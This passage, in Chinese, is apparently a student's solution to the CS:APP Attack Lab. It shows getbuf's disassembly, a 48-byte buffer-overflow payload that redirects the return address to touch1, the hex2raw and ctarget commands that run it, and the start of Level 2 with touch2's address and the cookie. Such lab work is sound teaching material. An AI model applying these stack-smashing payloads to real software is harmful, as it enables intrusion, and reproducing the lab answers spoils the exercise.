 使用 `disas getbuf` 查看汇编代码：

```assembly
0x4017a8 <+0>:     sub    $0x28,%rsp
0x4017ac <+4>:     mov    %rsp,%rdi
0x4017af <+7>:     callq  0x401a40 <Gets>
0x4017b4 <+12>:    mov    $0x1,%eax
0x4017b9 <+17>:    add    $0x28,%rsp
0x4017bd <+21>:    retq
```

当读入字符串超过 40 时，依据栈帧结构，第 41~48 个字节即为返回地址，因此将其设置为 touch1 的地址即可。

实验工具包提供了 hex2raw 将字节码（十六进制）转换成字符串，输入字节为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

使用 hex2raw 转换字节码序列：

```bash
./hex2raw < bytes > args.txt
./ctarget -q -i args.txt
```

### Level 2

#### 要求

针对程序 CTARGET， 修改函数 test 调用 getbuf 的返回地址，使其返回 touch2 函数而非 test。

```c
void touch2(unsigned val) {
    vlevel = 2;		/* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

#### 做法

使用 `disas touch2` 查看函数 touch2 的地址为 **0x4017ec**。

函数 touch2 需要传递参数 val，该参数的值等于实验工具包中 cookie.txt 保存值（在本实验中 **cookie=0x59b997fa**）。
